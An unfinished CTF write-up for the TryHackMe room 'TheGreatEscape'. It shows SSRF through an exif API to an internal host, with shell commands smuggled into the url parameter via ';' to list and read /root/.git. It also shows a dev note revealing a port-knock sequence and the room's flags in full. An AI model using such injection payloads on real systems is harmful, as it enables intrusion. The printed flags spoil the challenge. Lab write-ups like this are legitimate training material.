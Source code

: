 # Room: [TheGreatEscape](https://tryhackme.com/room/thegreatescape)


:warning: Work in progress :warning:

## Basic enum:

the `robots.txt` gives us  http://10.10.204.152/exif-util/

=> http://escape.thm/exif-util.bak.txt ...

```bash
Fascinant! http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-lrtah

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-larth%20/root/.git

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20log

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20show%20a3d30a7d0510dc6565ff9316e3fb84434916dee8
```
Ok so at least we have:

```bash
commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes

diff --git a/dev-note.txt b/dev-note.txt
new file mode 100644
index 0000000..89dcd01
--- /dev/null
+++ b/dev-note.txt
@@ -0,0 +1,9 @@
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{0cb4b947[Redcated]b75a10876}
\ No newline at end of file
```

<details><summary>Click to reveal the root flag</summary>
<p>

    ```text
    THM{0cb4b947043cb5c0486a454b75a10876}
    ```
</p>
</details>

```bash
# cd .well-known
# ls
security.txt
# cat security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

Ok fair enough :nerd_face:

```
root@X-X-X-X:~# curl -IXHEAD http://plop.thm/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sat, 17 Jul 2021 19:42:15 GMT
Connection: keep-alive
flag: THM{b801135[Redcated]a44c2e5ad4}
```

<details><summary>Click to reveal the root flag</summary>
<p>

    ```text
      THM{b801135794bf1ed3a2aafaa44c2e5ad4}
    ```
</p>
</details>

